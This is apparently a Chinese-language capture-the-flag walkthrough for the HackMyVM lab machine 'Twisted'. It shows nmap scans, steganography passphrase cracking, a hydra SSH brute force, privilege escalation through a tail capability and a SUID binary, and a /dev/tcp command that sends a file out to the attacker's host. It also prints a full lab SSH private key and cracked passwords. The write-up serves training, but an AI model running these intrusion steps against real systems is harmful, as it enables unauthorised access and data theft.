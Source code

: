 > ⏲️ Release Date // 2020-10-15
>
> ✔️ MD5 // 421465f7ccfc34907fd8b7fa38f46dbc
>
> ☠ Root // 219
>
> 💀 User // 222

### 主机探测和nmap扫描

主机探测

```bash
nmap -sn 192.168.56.100/24
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 01:50 EDT
Nmap scan report for 192.168.56.100
Host is up (0.00055s latency).
MAC Address: 08:00:27:01:69:57 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.116
Host is up (0.00019s latency).
MAC Address: 0A:00:27:00:00:1C (Unknown)
Nmap scan report for 192.168.56.124
Host is up (0.00059s latency).
MAC Address: 08:00:27:1B:C8:B8 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.101
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 7.88 seconds
```

进行TCP的全端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.56.124
```

```
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
MAC Address: 08:00:27:1B:C8:B8 (Oracle VirtualBox virtual NIC)
```

进行80，2222端口的详细扫描

```bash
nmap -sT -sV -sC -O -p80,2222 192.168.56.124
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
2222/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 67:63:a0:c9:8b:7a:f3:42:ac:49:ab:a6:a7:3f:fc:ee (RSA)
|   256 8c:ce:87:47:f8:b8:1a:1a:78:e5:b7:ce:74:d7:f5:db (ECDSA)
|_  256 92:94:66:0b:92:d3:cf:7e:ff:e8:bf:3c:7b:41:b7:5a (ED25519)
MAC Address: 08:00:27:1B:C8:B8 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2222端口开放的是ssh服务

### web渗透

访问web页面，两张图片

```bash
wget http://192.168.56.124/cat-hidden.jpg
wget http://192.168.56.124/cat-original.jpg
```

利用stegseek进行分离

```bash
┌──(root㉿kali)-[/home/kali/Twisted]
└─# stegseek -wl /usr/share/wordlists/rockyou.txt cat-hidden.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "sexymama"
[i] Original filename: "mateo.txt".
[i] Extracting to "cat-hidden.jpg.out".
┌──(root㉿kali)-[/home/kali/Twisted]
└─# cat cat-hidden.jpg.out 
thisismypassword
```

```bash
┌──(root㉿kali)-[/home/kali/Twisted]
└─# stegseek -wl /usr/share/wordlists/rockyou.txt cat-original.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "westlife"
[i] Original filename: "markus.txt".
[i] Extracting to "cat-original.jpg.out".
┌──(root㉿kali)-[/home/kali/Twisted]
└─# cat cat-original.jpg.out 
markuslovesbonita
```

得到了很多关键信息，组成一个字典，尝试ssh爆破

```
sexymama
mateo
westlife
markus
markuslovesbonita
thisismypassword
```

```bash
hydra -L pass -P pass ssh://192.168.56.124:2222
```

```
[2222][ssh] host: 192.168.56.124   login: mateo   password: thisismypassword
[2222][ssh] host: 192.168.56.124   login: markus   password: markuslovesbonita
```

得到两对凭据

### 登录SSH

```bash
ssh mateo@192.168.56.124 -p2222
```

```bash
mateo@twisted:~$ cat note.txt 
/var/www/html/gogogo.wav
```

得到一个音频文件，里面是莫斯密码，利用[在线网站提取](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

没有得到有用的信息

继续看另一个用户

```bash
ssh markus@192.168.56.124 -p2222
```

```bash
markus@twisted:~$ ls
note.txt
markus@twisted:~$ cat note.txt 
Hi bonita,
I have saved your id_rsa here: /var/cache/apt/id_rsa
Nobody can find it. 
markus@twisted:~$ cat /var/cache/apt/id_rsa
cat: /var/cache/apt/id_rsa: Permission denied
markus@twisted:~$ ls /var/cache/apt/id_rsa -l
-rw------- 1 root root 1823 Oct 14  2020 /var/cache/apt/id_rsa
```

有一个bonita用户的ssh私钥

### 提权

#### Capabilities 提权

> Capabilities机制，是在Linux内核2.2之后引入的。它将root用户的权限细分为不同的领域，可以分别启用或禁用。从而，在实际进行特权操作时，如果euid不是root，便会检查是否具有该特权操作所对应的capabilities，并以此为依据，决定是否可以执行特权操作。

```bash
/usr/sbin/getcap -r / 2>/dev/null
```

```
/usr/bin/ping = cap_net_raw+ep
/usr/bin/tail = cap_dac_read_search+ep
```

> cap_dac_read_search可以绕过文件的读权限检查以及目录的读/执行权限的检查，利用此特性我们可以读取系统中的敏感信息

利用tail的权限读取`id_rsa`

```bash
mateo@twisted:~$ tail -n 50 /var/cache/apt/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA8NIseqX1B1YSHTz1A4rFWhjIJffs5vSbAG0Vg2iTa+xshyrmk6zd
FyguFUO7tN2TCJGTomDTXrG/KvWaucGvIAXpgV1lQsQkBV/VNrVC1Ioj/Fx3hUaSCC4PBS
olvmldJg2habNOUGA4EBKlTwfDi+vjDP8d77mF+rvA3EwR3vj37AiXFk5hBEsqr9cWeTr1
vD5282SncYtJb/Zx0eOa6VVFqDfOB7LKZA2QYIbfR7jezOdX+/nlDKX8Xp07wimFuMJpcF
gFnch7ptoxAqe0M0UIEzP+G2ull3m80G5L7Q/3acg14ULnNVs5dTJWPO2Fp7J2qKW+4A5C
tt0G5sIBpQAAA8hHx4cBR8eHAQAAAAdzc2gtcnNhAAABAQDw0ix6pfUHVhIdPPUDisVaGM
gl9+zm9JsAbRWDaJNr7GyHKuaTrN0XKC4VQ7u03ZMIkZOiYNNesb8q9Zq5wa8gBemBXWVC
xCQFX9U2tULUiiP8XHeFRpIILg8FKiW+aV0mDaFps05QYDgQEqVPB8OL6+MM/x3vuYX6u8
DcTBHe+PfsCJcWTmEESyqv1xZ5OvW8PnbzZKdxi0lv9nHR45rpVUWoN84HsspkDZBght9H
uN7M51f7+eUMpfxenTvCKYW4wmlwWAWdyHum2jECp7QzRQgTM/4ba6WXebzQbkvtD/dpyD
XhQuc1Wzl1MlY87YWnsnaopb7gDkK23QbmwgGlAAAAAwEAAQAAAQAuUW5GpLbNE2vmfbvu
U3mDy7JrQxUokrFhUpnJrYp1PoLdOI4ipyPa+VprspxevCM0ibNojtD4rJ1FKPn6cls5gI
mZ3RnFzq3S7sy2egSBlpQ3TJ2cX6dktV8kMigSSHenAwYhq2ALq4X86WksGyUsO1FvRX4/
hmJTiFsew+7IAKE+oQHMzpjMGyoiPXfdaI3sa10L2WfkKs4I4K/v/x2pW78HIktaQPutro
nxD8/fwGxQnseC69E6vdh/5tS8+lDEfYDz4oEy9AP26Hdtho0D6E9VT9T//2vynHLbmSXK
mPbr04h5i9C3h81rh4sAHs9nVAEe3dmZtmZxoZPOJKRhAAAAgFD+g8BhMCovIBrPZlHCu+
bUlbizp9qfXEc8BYZD3frLbVfwuL6dafDVnj7EqpabmrTLFunQG+9/PI6bN+iwloDlugtq
yzvf924Kkhdk+N366FLDt06p2tkcmRljm9kKMS3lBPMu9C4+fgo9LCyphiXrm7UbJHDVSP
UvPg4Fg/nqAAAAgQD9Q83ZcqDIx5c51fdYsMUCByLby7OiIfXukMoYPWCE2yRqa53PgXjh
V2URHPPhqFEa+iB138cSgCU3RxbRK7Qm1S7/P44fnWCaNu920iLed5z2fzvbTytE/h9QpJ
LlecEv2Hx03xyRZBsHFkMf+dMDC0ueU692Gl7YxRw+Lic0PQAAAIEA82v3Ytb97SghV7rz
a0S5t7v8pSSYZAW0OJ3DJqaLtEvxhhomduhF71T0iw0wy8rSH7j2M5PGCtCZUa2/OqQgKF
eERnqQPQSgM0PrATtihXYCTGbWo69NUMcALah0gT5i6nvR1Jr4220InGZEUWHLfvkGTitu
D0POe+rjV4B7EYkAAAAOYm9uaXRhQHR3aXN0ZWQBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

```bash
ssh bonita@127.0.0.1 -i id_rsa
```

登录到bonita用户

```bash
bonita@twisted:~$ id
uid=1002(bonita) gid=1002(bonita) groups=1002(bonita)
bonita@twisted:~$ ls
beroot  user.txt
bonita@twisted:~$ cat user.txt 
HMVblackcat
```

```bash
bonita@twisted:~$ file beroot 
beroot: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=fecfbde059505a54f66d3229cc9ebb78f997a7ba, not stripped
-rwsrws--- 1 root   bonita 16864 Oct 14  2020 beroot
```

下载到本地，逆向分析

```bash
cat beroot > /dev/tcp/192.168.56.101/1234
nc -lvp 1234 > beroot
```

![image-20240526150551131](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240526150551131.png)

该文件具有suid权限，输入5880即可得到root的bash

#### SUID提权

```bash
bonita@twisted:~$ ./beroot 
Enter the code:
 5880
root@twisted:~# cat /root/root.txt 
HMVwhereismycat
```

拿到root.txt